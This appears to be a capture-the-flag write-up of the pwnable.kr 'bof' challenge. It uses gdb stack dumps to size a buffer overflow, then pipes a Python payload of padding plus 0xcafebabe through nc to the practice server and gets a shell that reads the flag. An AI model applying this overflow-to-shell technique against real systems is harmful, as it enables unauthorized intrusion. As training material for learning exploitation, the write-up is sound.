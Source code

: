 ```none
```

Okay, lets run the program with some standard input and see what it looks like.
```
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/bell/pwnable/bof 
overflow me : 
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH

Breakpoint 1, 0x56555654 in func ()
(gdb) x/25x $sp
0xffffd0a0:	0xffffd0bc	0x00000000	0x00000000	0x9e8df500
0xffffd0b0:	0x00000009	0xffffd35d	0xf7e0e4a9	0x41414141
0xffffd0c0:	0x42424242	0x43434343	0x44444444	0x45454545
0xffffd0d0:	0x46464646	0x47474747	0x48484848	0x9e8df500
0xffffd0e0:	0x00000000	0xf7e0e5db	0xffffd108	0x5655569f
0xffffd0f0:	0xdeadbeef	0x00000000	0x565556b9	0x00000000
0xffffd100:	0xf7fb6000
```

We see our input starting at address `0xffffd0bd` with our `A`s in hex (`0x41414141`).
Our input ends at `0xffffd0e0` where we have some null bytes, and then the value
we want to change (`0xdeadbeef`) is a few bytes away. So theoretically we should 
just have to add 13 words of padding (52 characters) and then `0xcafebabe`.

The easiest way to do this is with python. We first print A 52 times for our
padding, then append `0xcafebabe` in hex. Take in mind that this is likely a 
little endien system, so we have to reverse the order of the bytes.

```sh
$ python -c "print 'A'*52 + '\xbe\xba\xfe\xca'"
```

Then, we send this on to the server.

```sh
$ python -c "print 'A'*52 + '\xbe\xba\xfe\xca'" | nc pwnable.kr 9000
ls
cat flag
```

Hmm... it seems were connected and maybe running the commands, but getting no
response back? It appears STDIN is going nowhere, so lets have cat print
out everything going to STDIN.

```sh
$ (python -c "print 'A'*52 + '\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
```
